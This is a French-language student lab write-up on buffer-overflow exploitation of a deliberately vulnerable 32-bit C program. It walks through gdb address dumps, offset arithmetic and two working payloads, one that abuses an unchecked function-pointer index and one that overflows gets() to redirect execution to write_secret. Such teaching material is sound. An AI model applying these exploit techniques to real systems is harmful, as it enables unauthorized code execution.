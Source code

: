 # TP sur le Buffer Overflow

Pour référence :

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
```

## Question 1

La 1re variable que je trouve étant sujette à une attaque buffer overflow est `wis` dans la fonction `put_wisdom`.

## Question 2

Cette variable est remplie par la fonction dépréciée `gets`, qui écrit dans la mémoire sans vérifier la taille du buffer, jusqu'à rencontrer un `\n`, EOF ou `\0`.

```c
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;
  ...
}
```

## Question 3

Une autre variable est sujette à une attaque buffer overflow et qui ne se trouve pas dans la *stack* est le tableau `ptrs` qui est une variable global.

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };
```

## Question 4

```
fptr tmp = ptrs[s]; // on peut overflow
tmp();
```

Si on calcul le bon offset `s`, on peut aller exécuter une autre fonction que `put_wisdom` ou `get_wisdom`.
Par exemple, on peut mettre l'adresse de `write_secret` dans `buf` et calculer l'offset pour que `s` pointe sur cette adresse, ce qui va exécuter `write_secret` quand on arrive à `tmp()`.

## Question 5

```
(gdb) print &buf
$2 = (char (*)[1024]) 0xbffff400
```

## Question 6

```
(gdb) print &ptrs
$3 = (fptr (*)[3]) 0x804a0d4
```

## Question 7

```
(gdb) print &write_secret
$4 = (void (*)(void)) 0x8048534 <write_secret>
```

## Question 8

```
(gdb) print &p
$6 = (fptr *) 0xbffff804
```

## Question 9

En python : 

```
>>> ptrs = 0x804a0d4
>>> p = 0xbffff804
>>> (p-ptrs)//4
771675596
```

On divise par 4 car avec `ptrs[1]` on se déplace de 1 adresse, et 1 adresse = 4 octets sur un système 32 bits.
Ainsi, si on veut se déplacé de X octets, on peut en faite faire `ptrs[X//4]`.

Note : `//` est l'opérateur de division entière en python.

## Question 10

```
>>> ptrs = 0x804a0d4
>>> buf = 0xbffff400
>>> (buf-ptrs + 64)//4
771675355
```

## Question 11

```
>>> ptrs = 0x804a0d4
>>> write_secret = 0x8048534
```

Donc on écrit en input :
```
771675355\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x8
~~~~~~~~~ ~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~
adresse   fin  On remplit buf pour atteindre buf[64]                adresse de 
                                                                    write_secret 
                                                                    en 
                                                                    little-endian 
                                                                    (\x8 ou \x08)
```

## Question 12

```
(gdb) break wisdom-alt.c:62
(gdb) cont
Continuing.

Breakpoint 1, put_wisdom () at wisdom-alt.c:62
62        r = (int)gets(wis);
(gdb) x/48wx $esp
0xbffff320:     0x00000001      0x0804a098      0x00000012      0x00000020
0xbffff330:     0x00000004      0x00000004      0x00000020      0x00000000
0xbffff340:     0xbffff348      0xb7e9e411      0x00000000      0x00000000
0xbffff350:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff360:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff370:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff380:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff390:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3c0:     0x00000000      0x00000000      0x00000012      0xbffff400
0xbffff3d0:     0x00000000      0xbffff800      0xbffff818      0x0804880d
(gdb) print &write_secret
$1 = (void (*)(void)) 0x8048534 <write_secret>
(gdb) print &wis
$2 = (char (*)[128]) 0xbffff348
(gdb) backtrace
#0  put_wisdom () at wisdom-alt.c:62
#1  0x0804880d in main () at wisdom-alt.c:102
```

```
>>> r = r"""0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000012      0xbffff400 0x00000000      0xbffff800      0xbffff818""" # entre 0xbffff348 (&wis) et 0x0804880d (& de retour, pointe dans main)
>>> len(r.split()) * 4
148
>>> print(r"A\x00" + "A"*(148-2) + r"\x34\x85\x04\x08") # 2 octets pour que gets() puisse lire, padding, et &write_secret little-endian
A\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x08
```